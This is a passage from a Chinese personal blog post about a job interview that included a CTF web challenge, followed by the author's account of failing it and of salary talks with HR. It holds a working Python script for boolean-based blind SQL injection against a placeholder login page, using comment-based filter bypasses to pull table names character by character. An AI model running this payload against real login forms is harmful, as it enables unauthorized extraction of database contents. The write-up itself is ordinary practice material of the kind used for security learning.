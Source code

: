 ```bash
import requests
i=0
flag=""
host="http://xxxxx/login.php"
while True:
    head=32
    tail=128
    i=i+1
    while head<tail:
        mid=(head+tail)//2
        # print(mid)
        payload={
            "name":"admin", 'password':"'or/**/if(ascii(substr((select/**/group_concat(table_name)/**/from/**/mysql.innodb_index_stats/**/limit/**/0,1),{0},1))>{1},1,0)#".format(i,mid),
            "submit":"LOGIN"
        }
        res=requests.post(url=host,data=payload)
        if "用户名或密码错误" in res.text:
            tail=mid
        else:
            head=mid+1
    if head!=32:
        flag+=chr(head)
        print(flag)
    else:
        break
print(flag)
```

跑出来一个表名 gtid\_slave\_pos

结合上面那条 SQL 语句，我就在猜...

会不会是 flag 用户的密码就是 flag 的值呢？

带着这个表名，还有之前前端那条 SQL 语句的字段名去查

试了很多次，都没能跑出来...不知道为啥

最后还是没做出来...

### 结果

直接开摆了，跟 HR 说做出了第一题，第二题卡住了

聊了一下，想争取 8-9K 的...

但 HR 说应届生只能给到 6-7K，转正后可以争取

我不大满意，于是这次面试就匆匆结束了

我也开始准备下一场面试了....
